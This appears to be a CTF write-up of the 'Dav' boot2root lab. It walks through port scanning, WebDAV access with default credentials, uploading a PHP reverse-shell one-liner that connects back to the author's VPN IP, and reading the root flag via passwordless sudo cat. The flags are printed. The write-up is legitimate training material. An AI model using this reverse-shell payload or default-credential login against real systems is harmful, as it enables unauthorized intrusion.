

# Dav Write-Up:

Another day, another CTF! This room, **Dav** describes itself as a "boot2root machine for FIT and bsides guatemala CTF" Let's try it out!

## Port Scan:

As usual, I like to start with the old reliable port scan with NMap:

```
sudo nmap -vv -sS -sC -sV -oN nmap-out {MACHINE_IP}
```

It only returned 1 port:

```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```


## Directory Enumeration:

I then tried a new tool for directory enumeration: **Feroxbuster**

Check it out [here.](https://github.com/epi052/feroxbuster)

```
feroxbuster -u http://{MACHINE_IP}/ -x php,txt,html -w /usr/share/wordlists/directory-list-2.3-medium.txt --extract-links --output page_enum --scan-limit 2
```
 
I was very pleased with this tool! So fast and powerful! This particular CTF only has one useful directory to find, though. It felt like I was using an anti-aircraft gun to take down a mouse. But I can't wait to try this tool out on a CTF that uses a more complex directory structure.

Anyway, the scan returned the following:

```
200    15l       74w     3338c http://{MACHINE_IP}/icons/ubuntu-logo.png
200   375l      968w    11321c http://{MACHINE_IP}/index.html
401    14l       54w      459c http://{MACHINE_IP}/webdav
403    11l       32w      300c http://{MACHINE_IP}/server-status
```

## Exploration:

I checked out the **/webdav** directory. I got a password prompt.

I looked up default passwords for webdav servers, and came up with **username= wampp** and **password= xampp**. I tried them out, and I got access!



There is a file, **passwd.dav**, that contains the following:

```
wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
```

I couldn't find any use for the above information. It looks like a hash, but I ran it through a hash identifier, and I couldn't find any results.

## Getting A Shell:

It turns out, that **WEBDAV** is an extension of HTTP. It allows for the copying, retrieving, and even adding files.

I used a Linux WEBDAV client, called **Cadaver**, to establish a WEBDAV session with the server:

```
cadaver http://{MACHINE_IP}/webdav/
Authentication required for webdav on server `{MACHINE_IP}':
Username: wampp
Password: 
dav:/webdav/> 
```

I created a reverse shell PHP file (revshell.php) on my local machine:

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/{THM_VPN_IP}/1234 0>&1'");?>
```

I then used the **put** command on the WEBDAV server to upload my **revshell.php** file:

```
dav:/webdav/> put /{path_to_file}/revshell.php
```

I then set up a NetCat listener on my local machine:

```
sudo nc -nvlp 1234
```

I then navigated to **{MACHINE_IP}/webdav/revshell.php** on my browser, and I got a shell!

I found the **/home/merlin** directory, and found the **user.txt** file:

```
449b40fe93f78a938523b7e4dcd66d2a
```

That is the user flag!

## Getting The Root Flag:

I ran a **sudo -l** command:

```
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

Well, this is going to be easy.

We can run the **cat** command as super-user without a password! Let's try **sudo cat /root/root.txt**:

```
101101ddc16b0cdf65ba0b8a7af7afa5
```

That's the root flag! I hope you found this helpfull!
